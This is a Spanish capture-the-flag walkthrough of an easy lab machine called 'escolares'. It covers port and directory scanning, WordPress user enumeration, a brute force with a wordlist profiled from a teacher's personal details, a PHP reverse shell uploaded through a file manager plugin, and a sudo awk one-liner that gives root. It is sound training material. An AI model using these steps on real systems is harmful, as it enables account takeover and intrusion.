# Máquina escolares

---

Difucultad -> Fácil

---

Empezamos como siempre viendo puertos abbiertos con nmap

```shell
nmap -p- --open -sVC --min-rate=5000 -n -Pn 172.17.0.2
```

```shell
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 42:24:24:f5:66:68:a4:ad:8e:24:0d:70:4a:a5:e3:4f (ECDSA)
|_  256 29:42:2e:b6:85:ae:fb:09:89:8d:b9:c1:dc:4d:fc:1e (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: P\xC3\xA1gina Escolar Universitaria
```

Vemos los puertos 80 y 22 asi que miro la página web



Vemos una página de una universidad, antes de nada hago fuzzing con gobuster

```shell
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,php,html -t 64
```

```shell
/info.php             (Status: 200) [Size: 87159]
/assets               (Status: 301) [Size: 309] [--> http://172.17.0.2/assets/]
/wordpress            (Status: 301) [Size: 312] [--> http://172.17.0.2/wordpress/]
/index.html           (Status: 200) [Size: 6738]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
/contacto.html        (Status: 200) [Size: 3210]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://172.17.0.2/phpmyadmin/]
```

Encuentro varios directorios donde se puede ver que hay un wordpress asi que lo escaneo con `wpscan` para ver si hay temas o plugins vulnerables y listar usuarios

```shell
wpscan -e p,vt,cb,u --url 172.17.0.2/wordpress
```



No encuentra plugin o temas pero encuentra el usuario luisillo, pruebo ha hacer un bruteforce con rockyou pero no encuentra nada

```shell
wpscan -U luisillo -P /usr/share/wordlists/rockyou.txt --url 172.17.0.2/wordpress
```

Buscando un poco veo que en `/profesores.html` sale un tal Luis (admin wodrpress) con información sobre él



Viendo esto y sabiendo su usuario, creo una wordlist con los datos de Luis usando **`cupp -i`** 



Teniendo esta wordlist con datos de Luis, vuelvo a hacer el bruteforce con esta wordlist

```shell
wpscan -U luisillo -P luis.txt --url 172.17.0.2/wordpress
```



Y vemos que encuentra la contraseña `Luis1981` 

Con estas credenciales podemos acceder en http://escolared.dl/wordpress/wp-login.php (añadiendo `escolares.dl` a /etc/hosts)



Una vez dentro del panel de administracción de wordpress podemos irnos a WP File Manager y subir una revshell.php de [revshells](https://www.revshells.com/) 





Una vez subida, vamos a http://escolares.dl/wordpress/shell.php mientras escuchamos en nuestra máquina con `nc -lvnp 4444`



Y estamos dentro, antes de nada, hazemos [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/#) para operar con facilidad y un `sudo -l`



Vemos que con sudo -l nos pide contraseña 


Y buscando con permisos de SUID tampoco encuentro nada interesante.

Buscando un poco enceuntro en /home un txt con la contraseña de luisillo



Con esto hacemos `su luisillo`y escalamos a este.

Como luisillo, vuelvo ha hacer un `sudo -l` y encuentro un binario



Busco en [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#sudo) y veo que con solo `sudo awk 'BEGIN {system("/bin/bash")}'` y consigo root, lo ejecuto



Y asi de fácil conseguimos root :)
